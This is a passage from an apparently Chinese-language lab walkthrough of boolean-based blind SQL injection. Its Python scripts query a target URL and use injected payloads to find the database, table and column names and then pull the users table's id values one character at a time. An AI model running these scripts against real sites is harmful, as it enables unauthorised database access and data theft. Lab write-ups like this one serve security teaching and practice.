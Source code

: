 ```
                print("表名为",column_name)
                break
    return column_name

if __name__ == "__main__":
    print("获取数据库长度")
    length = get_database_length()
    print("获取数据库名")
    length_name = get_database_length2(length)
    print("获取表长度")
    table_length = get_table_length()
    print("获取表名")
    table_name = get_table_name(table_length)
    print("获取列长度")
    column_length = get_column_length()
    print("获取列名")
    column_name = get_column_name(column_length)
```
![sql5-column](/images/sql/sql5-column.png)
&emsp;&emsp;最后爆字段
```
def get_column_id():
    global flag,url
    length = 1
    id = ""
    while(True):
        payload = f"?id=1'and length((select group_concat(id) from users))={length}--+"
        response = requests.get(url + payload).text
        if flag not in response:
            length += 1
        else:
            break
    print("id长度为",length)
    for i in range(1,length+1):
        for j in range(33,122):
            payload = f"?id=1'and ascii(substr((select group_concat(id) from users),{i},1))={j}--+"
            response = requests.get(url + payload).text
            if flag in response:
                id += chr(j)
                break
    print("id为",id)
    return id
```